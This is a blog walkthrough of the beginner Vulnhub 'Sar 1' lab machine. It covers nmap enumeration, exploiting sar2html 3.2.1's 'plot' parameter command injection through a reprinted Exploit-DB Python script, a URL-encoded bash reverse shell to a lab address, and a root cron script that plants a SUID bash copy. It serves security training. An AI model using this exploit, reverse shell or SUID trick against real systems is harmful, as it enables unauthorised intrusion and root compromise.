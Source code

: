 +++
title = "Vulnhub: Sar 1"
date = "2021-05-13"
author = ""
authorTwitter = "" #do not include @
tags = ["Beginner", "Vulnhub", "OSCP Prep", "sar2html", "Cron"]
keywords = ["", ""]
description = ""
showFullContent = false
cover = "/img/sar1/sar1.png"
+++



| Difficulty | Release Date | Author |
| ---------- | ------------ | ------ |
| Beginner | 15 Feb 2020 | Love |

# Summary

In this box there's only one port open that is running a vulnerable version of sar2html that
we take advantage of to get a low priv shell. For privilege escalation there was a cron job
running as root that was running a script we could write in.

# Reconnaissance

Nmap

```sh
Nmap scan report for 192.168.56.107
Host is up (0.000040s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 08:00:27:48:00:F5 (Oracle VirtualBox virtual NIC)
```

# Enumeration

## 80 (HTTP)

Using nmap scripts we see the existence of robots.txt

```sh
Nmap scan report for 192.168.56.107
Host is up (0.00042s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-enum:
|   /robots.txt: Robots file
|_  /phpinfo.php: Possible information file
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
From this we discover sar2HTML.

{{< image src="/img/sar1/sar1-01.png" alt="" position="center" style="border-radius: 8px;" >}}

Visiting this directory I get the version of sar2html as 3.2.1.

{{< image src="/img/sar1/sar1-02.png" alt="" position="center" style="border-radius: 8px;" >}}

Checking on searchsploit, a remote command execution vulnerability exists for this version.

```sh
searchsploit sar2html
```

{{< image src="/img/sar1/sar1-03.png" alt="" position="center" style="border-radius: 8px;" >}}

# Shell as user

By executing the python script that exploits this RCE vulnerability, we are able to get a reverse shell.

script url: [https://www.exploit-db.com/exploits/49344](https://www.exploit-db.com/exploits/49344)

```
~/Vulnhub/Sar1  python3 49344.py

Enter The url => http://192.168.56.107/sar2HTML/
Command => id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Command => /bin/bash+-c+'/bin/bash+-i+>%26+/dev/tcp/192.168.56.1/9000+0>%261'
```

{{< image src="/img/sar1/sar1-04.png" alt="" position="center" style="border-radius: 8px;" >}}

Performing some enumeration to achieve some privilege escalation to root or lateral movement to other users
I found a cron job running as root.

{{< image src="/img/sar1/sar1-05.png" alt="" position="center" style="border-radius: 8px;" >}}

While we can't write to this file, the script being executed inside it is writeable.

{{< image src="/img/sar1/sar1-06.png" alt="" position="center" style="border-radius: 8px;" >}}


# Shell as root

By writing into write.sh using vi, we can escalate our privileges.

```
#!/bin/sh

cp /bin/bash /var/www/html/suidbash
chmod u+s /var/www/html/suidbash
```

This will create a copy of the bash binary and add suid permissions to it.

Once the cron job executes and creates the binary we can achieve a root shell and read all the flags.

{{< image src="/img/sar1/sar1-07.png" alt="" position="center" style="border-radius: 8px;" >}}

# Extras

Understanding the exploit script and perform the exploit manually. 

To my surprise, this exploit code was created by a good friend of mine, Musyoka Ian.

```py
# Exploit Title: sar2html 3.2.1 - 'plot' Remote Code Execution
# Date: 27-12-2020
# Exploit Author: Musyoka Ian
# Vendor Homepage:https://github.com/cemtan/sar2html
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Ubuntu 18.04.1

#!/usr/bin/env python3

import requests
import re
from cmd import Cmd

url = input("Enter The url => ")

class Terminal(Cmd):
    prompt = "Command => "
    def default(self, args):
        exploiter(args)

def exploiter(cmd):
    global url
    sess = requests.session()
    output = sess.get(f"{url}/index.php?plot=;{cmd}")
    try:
        out = re.findall("<option value=(.*?)>", output.text)
    except:
        print ("Error!!")
    for ouut in out:
        if "There is no defined host..." not in ouut:
            if "null selected" not in ouut:
                if "selected" not in ouut:
                    print (ouut)
    print ()

if __name__ == ("__main__"):
    terminal = Terminal()
    terminal.cmdloop()% 
```

According to the script the vulnerable parameter is plot and simply takes in our command and executes it.

When interacting with the application you can select OS, when you pick one the plot parameter is used.

{{< image src="/img/sar1/sar1-08.png" alt="" position="center" style="border-radius: 8px;" >}}

Here we can inject the command we want and execute shell commands. The OS option doesn't matter, anything after
the semi-colon `;` will be executed. For the reverse shell command remember to url encode special chars like I did
above

{{< image src="/img/sar1/sar1-09.png" alt="" position="center" style="border-radius: 8px;" >}}

Shoutout to Musyoka Ian, you can read his blog linked below. He does cool writeups on challenges as well.

[https://musyokaian.medium.com/](https://musyokaian.medium.com/)
